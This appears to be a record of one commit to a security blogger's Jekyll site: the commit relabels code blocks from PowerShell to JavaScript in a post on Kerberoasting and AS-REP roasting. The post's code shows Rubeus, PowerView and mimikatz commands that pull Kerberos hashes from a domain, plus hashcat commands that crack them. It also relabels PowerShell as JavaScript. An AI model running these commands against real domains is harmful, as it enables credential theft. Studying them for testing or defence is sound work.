

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md, in a window 1280 px wide and 1400 px high, scrolled down 4807 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md

````diff
--- a/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
+++ b/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
@@ -57,13 +57,13 @@
 
 We can use [Rubeus](https://github.com/GhostPack/Rubeus) on a domain joined machine to find all accounts on that domain where **Do not require Kerberos preauthentication** is set and have it return the corresponding hashes. The **/format** option will directly give us output that is crackable with [hashcat](https://github.com/hashcat/hashcat).
 
-```powershell
+```javascript
 Rubeus.exe asreproast /format:hashcat
 ```
 
 The AS-REP hash can then be fed into hashcat for offline attacks i.e. with brute-force or wordlist attacks.
 
-```powershell
+```javascript
 hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
 ```
 
@@ -72,13 +72,13 @@
 
 To check which accounts in you environment have pre-authentication disabled, you can use the following powershell cmdlet, which should be available by default on domain joined machines:
 
-```powershell
+```javascript
 get-aduser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name
 ```
 
 Or you might want to run [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) in your powershell session and issue the Get-DomainUser cmdlet:
 
-```powershell
+```javascript
 Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
 ```
 
@@ -109,20 +109,20 @@
 **Rubeus**
 The following attack will try to roast all users on the current domain leaving us with hashes in a crackable format for hashcat:
 
-```powershell
+```javascript
 Rubeus.exe kerberoast /format:hashcat
 ```
 
 **PowerView**
 We can get a list of all user accounts that have a **SPN** set:
 
-```powershell
+```javascript
 Get-DomainUser -SPN
 ```
 
 Afterwards we can fetch the hashes like so:
 
-```powershell
+```javascript
 Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat
 ```
 
@@ -131,19 +131,19 @@
 Having a look at the PowerView section above we are already able to query the desired **SPNs**.
 Next step is to query for the **ST** which can be done with two lines of powershell:
 
-```powershell
+```javascript
 Add-Type –AssemblyName System.IdentityModel
 New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘<SPN-name>:<SPN-port>’
 ```
 
 In order to extract the ticket from memory we use mimikatz:
-```powershell
+```javascript
 kerberos::list /export
 ```
 
 **hashcat**
 The output from Rubeus and PowerView can directly be feeded into hashcat:
-```powershell
+```javascript
 hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
 ```
 
````
